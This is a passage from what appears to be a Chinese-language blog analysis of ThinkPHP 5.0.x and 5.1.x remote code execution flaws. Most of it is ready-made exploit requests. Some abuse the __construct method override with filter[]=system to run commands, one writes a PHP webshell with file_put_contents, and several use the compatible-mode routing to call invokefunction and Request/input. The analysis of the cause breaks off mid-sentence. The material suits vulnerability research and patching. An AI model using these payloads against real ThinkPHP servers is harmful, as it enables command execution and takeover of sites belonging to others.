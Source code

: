```
POST ?s=index/index
_method=__construct&filter[]=system&method=GET&s=calc
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true 
`"topthink/think-captcha": "2.*"`
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&s=calc&method=get
```
## 5.1.1
命令执行
```
POST ?s=index/index
_method=__construct&filter[]=system&method=GET&s=calc
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&s=calc&method=get
```
**至此，不再一个一个版本测了，费时费力。**
基于`__construct`的payload大部分出现在5.0.x及低版本的5.1.x中。下文分析另一种rce。

# 未开启强制路由导致rce
这种rce的payload多形如
```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
## 环境
```json
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.29",
    "topthink/think-captcha": "2.*"
},
```
## 分析
![image](https://y4er.com/img/uploads/20191127229702.jpg)
thinkphp默认没有开启强制路由，而且默认开启路由兼容模式。那么我们可以用兼容模式来调用控制器，当没有对控制器过滤时，我们可以调用任意的方法来执行。上文提到所有用户参数都会经过 `Request` 类的 `input` 方法处理，该方法会调用 `filterValue` 方法，而 `filterValue` 方法中使用了 `call_user_func` ，那么我们就来尝试利用这个方法。访问
